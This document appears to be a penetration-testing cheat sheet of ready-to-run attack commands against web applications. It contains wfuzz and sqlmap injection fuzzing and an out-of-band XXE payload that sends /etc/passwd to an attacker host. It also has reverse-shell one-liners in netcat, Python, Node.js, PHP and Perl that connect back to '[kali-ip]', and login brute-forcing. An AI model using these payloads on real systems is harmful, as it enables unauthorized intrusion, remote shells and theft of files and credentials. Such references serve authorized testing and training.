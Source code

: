# Testing vulnerabilities 

## Serve files from Kali
1. Create folder `mkdir payloads`
2. Add files to folder that you want to serve to target machine 
3. `cd` to the created folder 
4. Execute command to start serving the files:
```shell
python3 -m http.server 80
```

## XSS
```shell
wfuzz -c -z file,/usr/share/seclists/Fuzzing/XSS/XSS-Jhaddix.txt --hh 0 "$URL/index.php?id=FUZZ"
```

## SQL Injection

### Fuzzing GET parameter
```shell
wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/SQL.txt -u "$URL/index.php?id=FUZZ"
```

### Fuzzing POST parameter
```shell
wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/SQL.txt -d "id=FUZZ" -u "$URL/index.php"
```

### sqlmap GET parameter
```shell
sqlmap -u "$URL/index.php?id=1"
```

### sqlmap POST parameter
Copy POST request from Burp Suite into `post.txt` file
```shell
sqlmap -r post.txt -p parameter
```


## Directory Traversal

### Fuzzing LFI default file paths
```shell
wfuzz -c -z file,/usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt --hh 0 "$URL/index.php?id=FUZZ"
```

### Fuzzing LFI app specific files
Create two wordlists:
1. Containing paths (paths.txt):
   ../
   ../../
   etc.
2. Containing custom files related to the web technology used (files.txt): 
   application.properties
   applitcation.yml
```shell
wfuzz -w paths.txt -w files.txt --hh 0 "$URL/index.php?id=FUZZFUZ2Z"
```

## XXE

### Fuzzing XXE 
Wordlist to use in Burp Suite Intruder for fuzzing XXE: `/usr/share/seclists/Fuzzing/XXE-Fuzzing.txt`

### Out-of-Band Exploitation
1. Create file named xxe.dtd with content:
```xml
<!ENTITY % content SYSTEM "file:///etc/passwd">
<!ENTITY % external "<!ENTITY &#37; exfil SYSTEM 'http://[kali-ip]/out?%content;'>" >
```
2. Serve file with http 
3. Insert file in payload 
```xml
<!DOCTYPE oob [
<!ENTITY % base SYSTEM "http://[kali-ip]/external.dtd"> 
%base;
%external;
%exfil;
]>
```
4. Check incoming requests 

Note that extracting file with multiple lines may not work due to encoding issues. 


## Server-side Template Injection 

### Fuzzing SSTI 
```plaintext
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
```

## Command Injection 

### Fuzzing command injection 
```shell
wfuzz -c -z file,"/usr/share/payloadsallthethings/Command Injection/Intruder/command-execution-unix.txt" --sc 200 "$URL/index.php?parameter=idFUZZ"
```

### Setup reverse shell listener 
```shell
nc -nlvp 4242
```

### Reverse shell Netcat 
```shell
/bin/nc -nv [kali-ip] 4242 -e /bin/bash
```

### Reverse shell Python 
```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[kali-ip]",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Reverse shell Node.js 
```shell
echo "require('child_process').exec('nc -nv [kali-ip] 4242 -e /bin/bash')" > /var/tmp/shell.js ; node /var/tmp/shell.js
```

### Reverse shell PHP
```php
php -r '$sock=fsockopen("[kali-ip]",4242);exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("[kali-ip]",4242);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("[kali-ip]",4242);system("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("[kali-ip]",4242);passthru("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("[kali-ip]",4242);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
```

### Reverse shell Perl
```shell
perl -e 'use Socket;$i="[kali-ip]";$p=4242;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## IDOR 

### Static file IDOR 
```shell
wfuzz -c -z range,1-100 --hc 404 "$URL/index.php?doc=FUZZ.txt"
```

### ID based IDOR 
```shell
wfuzz -c -z range,1-100 --hc 404 "$URL/index.php?doc=FUZZ"
```

## Brute forcing 

### Users discovery

```shell
wfuzz -c -z file,/usr/share/SecLists/Usernames/top-username-shortlist.txt --hc 404,403 "$URL/login.php?user=FUZZ"
```

### Password discovery
```shell
wfuzz -c -z file,/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt --hc 404,403 -d "username=admin&password=FUZZ" "$URL/login.php"
```
